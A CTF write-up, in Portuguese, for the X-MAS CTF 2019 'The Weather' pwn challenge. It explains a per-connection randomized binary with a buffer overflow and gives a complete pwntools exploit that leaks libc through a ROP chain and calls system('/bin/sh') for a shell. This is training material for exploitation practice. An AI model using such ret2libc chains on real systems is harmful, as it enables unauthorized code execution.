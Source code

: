 # The Weather - PWN - Writeup X-MAS CTF 2019

# Categories: pwn, Return to Libc (Ret2Libc), Buffer Overflow (BOF), leaking libc

A challenge apenas nos oferece um arquivo DockerFile, e um ip:port para efetuarmos a conexão.

Cada conexão feita, um base64 consideravelmente extenso é retornado para o cliente conectado.

O base64 enviado como resposta do servidor, se trata de um binário, o qual podemos assumir que é o binário que esta rodando naquele ip:port no exato momento de conexão, porém apenas para aquela conexão.

Nota-se que o base64 difere entre si, a partir de execuções diferentes/conexões diferentes, logo o binário consequentemente será diferente para cada execução, acarretando em mudanças na hora de construir um exploit.

O binário possui um clássico tipo de Buffer Overflow logo no primeiro input; "What's your name? "

Porém, como o binário difere entre si a cada execução, diversos fatores do nosso exploit vão constantemente sofrer alterações, como a tabela GOT, tamanho de buffers, etc.

### Isso consiste em:
1. Teremos que criar um script que "converta a base64 para binário"
2. Após isso obtenha o padding necessário para sobescrever o Return Pointer
3. Então consiga os endereços necessários na GOT a fim de leakar a libc
4. Permitindo então o calculo do endereço base da libc, de forma que o caminho para o ataque de BOF via Ret2Libc torne-se viável.

## Exploit
```
import os
from pwn import *
from base64 import b64decode

c = remote("challs.xmas.htsp.ro", 12002)
libc = ELF("libc-2.27.so")

############## Solving Binary Recompilation Problems ################
info("Downloading Binary....")
c.recvuntil("'")
bindata=c.recvuntil("'")
bindata=str(bindata)[0:len(bindata)-1]
with open("bin_sv_file", "wb+") as file:
	file.write(b64decode(bindata))
	file.close()

os.system("chmod +x bin_sv_file")
io = process("./bin_sv_file")
io.sendlineafter("name? ", cyclic(300))
io.wait()
core = io.corefile
rsp = core.rsp
pattern = core.read(rsp, 4)
offset_rsp = cyclic_find(pattern)
success("Offset to $RSP => %s"%offset_rsp)
e = ELF("./bin_sv_file")
rop = ROP(e)

########################################################

pad = cyclic(int(offset_rsp))
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
puts = e.plt["puts"]
libc_start_main = e.symbols["__libc_start_main"]
entry_point = 0x400630
ret = (rop.find_gadget(['ret']))[0]

xpl = pad + p64(pop_rdi) + p64(libc_start_main) + p64(puts) + p64(entry_point)

c.sendlineafter("name? ", xpl)
c.recvline()
c.recvline()

libc_start_main_leaked = u64(c.recvline().strip().ljust(8, "\x00"))
success("__libc_start_main leaked => %s"%hex(libc_start_main_leaked))

libc.address = libc_start_main_leaked - libc.sym["__libc_start_main"]
info("libc base => 0x%x"%libc.address)

system = libc.sym["system"]
str_bin_sh = next(libc.search("/bin/sh"))

info("system => %x"%system)
info("str_bin_sh => %x"%str_bin_sh)

xpl = pad + p64(ret) + p64(pop_rdi) + p64(str_bin_sh) + p64(system)
c.sendlineafter("name? ", xpl)

c.interactive()
```

